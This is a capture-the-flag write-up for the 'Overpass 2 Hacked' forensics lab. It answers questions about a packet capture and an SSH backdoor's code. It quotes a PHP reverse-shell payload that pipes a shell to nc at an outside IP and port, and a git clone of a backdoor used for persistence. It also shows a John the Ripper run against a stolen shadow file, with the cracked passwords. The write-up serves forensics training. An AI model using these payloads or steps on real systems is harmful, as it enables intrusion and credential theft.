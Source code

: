 # Overpass 2 Hacked (ssh backdoor)

### **Overpass 2 - Hacked** <a href="#nnivv6u45yrp" id="nnivv6u45yrp"></a>

* SOC team noticed suspicious activity on late night shift.
* Packets captured as attack happened.

### **Forensics - Analyse the PCAP** <a href="#fvawteqhq1z1" id="fvawteqhq1z1"></a>

1. What was the URL of the page they used to upload a reverse shell?
   * Follow TCP Stream (tcp.stream eq 1).

POST /development/upload.php HTTP/1.1

1. What payload did the attacker use to gain access?
   * Follow TCP Stream (tcp.stream eq 1).

\<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

1. What password did the attacker use to privesc?
   * Follow TCP Stream (tcp.stream eq 3).

\[sudo] password for james: whenevernoteartinstant

1. How did the attacker establish persistence?
   * Follow TCP Stream (tcp.stream eq 3).

git clone https://github.com/NinjaJc01/ssh-backdoor

1. Using the fasttrack wordlist, how many of the system passwords were crackable?
   1. Copy and paste exposed shadow file from PCAP tcp.stream eq3 into "shadow" file.
   2. Run JtR against shadowfile.

john --wordlist=/usr/share/wordlists/fasttrack.txt shadow

\[...snip...]

secret12 (bee)

abcd123 (szymex)

1qaz2wsx (muirland)

secuirty3 (paradox)

\[...snip...]

### **Research - Analyse the code** <a href="#a9w1g078cpdj" id="a9w1g078cpdj"></a>

1. What's the default hash for the backdoor?
   * Hash displayed in[ ssh-backdoor GitHub repository](https://github.com/NinjaJc01/ssh-backdoor) "hash" variable of "main.go" code.
2. What's the hardcoded salt for the backdoor?
   * Salt displayed in[ ssh-backdoor GitHub repository](https://github.com/NinjaJc01/ssh-backdoor) "passwordHandler" function of "main.go" code.
3. What was the hash that the attacker used? - go back to the PCAP for this!
   * Follow TCP Stream (tcp.stream eq 3).
